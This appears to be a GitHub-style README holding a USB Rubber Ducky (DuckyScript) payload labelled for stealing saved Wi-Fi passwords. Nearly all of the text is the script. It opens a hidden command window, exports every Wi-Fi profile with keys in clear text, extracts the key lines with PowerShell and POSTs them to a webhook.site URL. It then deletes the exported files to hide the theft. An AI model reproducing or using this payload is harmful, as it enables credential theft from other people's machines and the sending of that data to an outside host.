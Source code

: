 # Grab Saved WiFi Password using DuckyScript
USB Rubber Ducky Script for capture saved wifi passwords
<pre>
<code>
REM Ducky Script for Steal Saved WiFi Password
REM Author - TechChip
REM https://github.com/techchipnet
REM https://youtube.com/techchipnet
DELAY 500
GUI r
DELAY 1000
STRING cmd /k mode con: cols=25 lines=1
DELAY 100
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 500
STRING powershell Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' > WiFi-Key
ENTER
DELAY 1000
DELAY 500
REM next command will post wifi password on webhook.site
REM watch demo on techchip youtube channel
STRING powershell Invoke-WebRequest -Uri https://webhook.site/<paste webhook unique id here> -Method POST -InFile WiFi-Key
ENTER
STRING del Wi* /s/f/q
ENTER
DELAY 500
STRING exit
ENTER
REM Subscribe TechChip YouTube Channel
</code>
</pre>
